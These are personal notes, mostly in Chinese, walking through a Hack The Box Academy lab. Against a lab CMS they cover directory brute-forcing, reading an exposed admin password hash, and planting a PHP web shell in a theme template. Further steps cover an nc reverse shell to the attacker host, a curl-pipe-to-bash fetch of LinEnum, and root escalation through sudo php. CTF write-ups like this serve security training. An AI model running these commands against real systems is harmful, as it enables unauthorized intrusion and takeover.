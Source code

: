 ## https://academy.hackthebox.com/module/77/section/853

1. 去路徑http://10.129.242.230/

2. 使用gobuster掃描
gobuster dir -u http://10.129.242.230/ -w /usr/share/seclists/Discovery/Web-Content/common.txt

3. 登入畫面
http://10.129.242.230/admin/

4. curl -l http://10.129.242.230/robots.txt
=> disaallow: /admin/

5. http://10.129.242.230/plugins/

6. http://10.129.242.230/theme/
=> http://10.129.242.230/theme/Cardinal/images/

7. http://10.129.242.230/theme/Cardinal/template.php
=> you cannot load this page directly

8. curl -k http://10.129.242.230/theme/Cardinal/template.php

9. gobuster dir -u http://10.129.242.230/theme/Cardinal -w /usr/share/seclists/Discovery/Web-Content/common.txt

10. curl -k http://10.129.242.230/sitemap.xml | xmllint --format -

11. http://10.129.242.230/data/

12. http://10.129.242.230/data/users/admin.xml
pwd: d033e22ae348aeb5660fc2140aec35850c4da997
email: admin@gettingstarted.com

13. http://10.129.242.230/data/

14. http://10.129.242.230/data/users/admin.xml.reset
user: admin
pwd: d033e22ae348aeb5660fc2140aec35850c4da997
email: admin@gettingstarted.com

15. http://10.129.242.230/data/other/logs/failedlogins.log
確定userName: admin

16. 問了gpt 這個是什麼的加密，gpt 說是 SHA-1 Hash 的加密
 decode: echo -n "admin" | sha1sum
=> password 為 admin

17. 登入 http://10.129.242.230/admin/
admin/ admin

18. 進入 http://10.129.242.230/admin/pages.php

19. gobuster dir -u http://10.129.242.230/admin/upload.php -w /usr/share/seclists/Discovery/Web-Content/common.txt

20. http://10.129.242.230/theme/Innovation/images/
這邊可以看到上傳的影片

21. http://10.129.242.230/theme/Innovation/template.php

22. 透過修改http://10.129.242.230/theme/Innovation/template.php 的內容為 
<?php system('id'); ?>
我現在可以拿到
uid=33(www-data) gid=33(www-data) groups=33(www-data) 了

23. 接下來將腳本修改為：
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 9443 >/tmp/f"); ?>

24. 在本機中使用：nc -lvnp 9443

24.5 wget http://10.129.242.230/theme/Innovation/template.php

25. python -c 'import pty; pty.spawn("/bin/bash")'
python not found

26. python3 -c 'import pty; pty.spawn("/bin/bash")'
=> success

27. https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

28. curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
=> 失敗，抓不到擋案 can/t connect raw.github

29. 本機執行：sudo python3 -m http.server 8080

30. curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

30.5 curl -O http://10.10.14.20:8080/LinEnum.sh

31. curl http://10.10.14.20:8080/LinEnum.sh | bash

32.  echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a aaa.sh

33. 再問gpt 後他說：
sudo /usr/bin/php -r 'system("/bin/bash");'
這樣就可以提身權限為root
然後就是root 了，就拿到flag 了！！